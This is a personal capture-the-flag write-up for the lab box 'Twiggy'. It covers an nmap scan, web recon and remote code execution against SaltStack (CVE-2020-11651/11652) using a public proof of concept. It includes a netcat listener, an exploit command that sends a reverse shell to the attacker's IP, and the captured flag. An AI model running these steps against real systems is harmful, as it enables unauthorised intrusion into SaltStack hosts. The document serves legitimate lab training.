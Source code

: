 ```yaml
---
aliases:
  - twiggy
tags:
  - pg-playground
  - linux
  - enumeration
  - exploitation
os: Linux
difficulty: Warm up
date: 2025-04-09
status: owned
---
```

### 1. Box Summary

| Field          | Value            |
| -------------- | ---------------- |
| Name           | Twiggy           |
| IP             | `192.168.145.62` |
| OS             | Linux            |
| Difficulty     | Medium           |
| Date Completed | 9 April 2025     |
| Exploited Via  | RCE              |
| Flags Captured | ✅ Root           |

### 2. Enumeration

Quick Nmap Scan just to see what's going on as usual:

```
nmap -sCV -p- -T4 192.168.145.62
```

Here's the report:

```
Nmap scan report for 192.168.145.62
Host is up (0.043s latency).
Not shown: 65529 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 44:7d:1a:56:9b:68:ae:f5:3b:f6:38:17:73:16:5d:75 (RSA)
|   256 1c:78:9d:83:81:52:f4:b0:1d:8e:32:03:cb:a6:18:93 (ECDSA)
|_  256 08:c9:12:d9:7b:98:98:c8:b3:99:7a:19:82:2e:a3:ea (ED25519)
53/tcp   open  domain  NLnet Labs NSD
80/tcp   open  http    nginx 1.16.1
|_http-title: Home | Mezzanine
|_http-server-header: nginx/1.16.1
4505/tcp open  zmtp    ZeroMQ ZMTP 2.0
4506/tcp open  zmtp    ZeroMQ ZMTP 2.0
8000/tcp open  http    nginx 1.16.1
|_http-server-header: nginx/1.16.1
|_http-title: Site doesn't have a title (application/json).
|_http-open-proxy: Proxy might be redirecting requests

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 108.93 seconds
```

### 3. Web Recon

Browsing to `http://192.168.145.62:80`:

- Shows a site using **Mezzanine CMS**
    
- There's an **admin interface**, but login fails.

![screenshot](images/Twiggy-1744177123093.jpeg)


Tried some login guesses — nothing obvious.

![[images/Twiggy-1744178077284.jpeg]]

Moved on to check `http://192.168.145.62:8000/` — it returns JSON but no content: time to do some research on ZeroMQ ZMTP 2.0 as well 

![[images/Twiggy-1744178200043.jpeg]]

### 🔥 Exploitation: SaltStack RCE (CVE-2020-11651 / 11652)

Apparently we have something good on [exploitDB](https://www.exploit-db.com/exploits/48421) , let's just run Saltstack 3000.1 - Remote Code Execution like some script kiddie, and my guy actually uploaded a [poc](https://github.com/Al1ex/CVE-2020-11652/blob/main/CVE-2020-11652.py) for it... good stuff

🔹 Create & Activate Virtual Environment
```
python3 -m venv salt-venv
source salt-venv/bin/activate
```

🔹 Install Dependencies
```
pip install salt==3002 msgpack PyYAML pyzmq jinja2 tornado requests
```

🛠️ Reverse Shell Prep
We will prep it by noting down:
- **Kali IP**: `192.168.45.197`
- **Target IP**: `192.168.145.62`
- **Listener Port**: `80`

🔹 Set up listener
```
nc -lvnp 80
```

🔹 Run the exploit
```
python3 exploit.py \
  --master 192.168.145.62 \
  --port 4506 \
  --shell-LHOST 192.168.45.197 \
  --shell-LPORT 80
```

![[images/Twiggy-1744181043545.jpeg]]

Shell caught on listener:

![[images/Twiggy-1744181018801.jpeg]]

FLAG:
```
02e2283f7e95835128a4a48a72dfd629
```
